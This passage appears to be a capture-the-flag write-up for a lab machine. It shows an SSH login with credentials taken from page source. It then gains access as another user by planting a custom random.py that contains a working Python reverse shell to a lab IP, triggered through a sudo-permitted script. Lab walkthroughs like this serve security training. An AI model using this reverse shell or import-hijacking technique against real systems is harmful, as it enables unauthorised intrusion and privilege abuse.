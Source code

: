 Using the gathered credentials from the page source
```bash
ssh alice@10.10.249.150
```

`alice:HowDothTheLittleCrocodileImproveHisShiningTail`

![[Pasted image 20240821162306.png]]
User `alice` can run the python code as user `rabbit` on the system

the python code imports `random`, made a custom `random.py` with a python reverse shell
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.103.8",4150));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

```bash
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
![[Pasted image 20240821162444.png]]

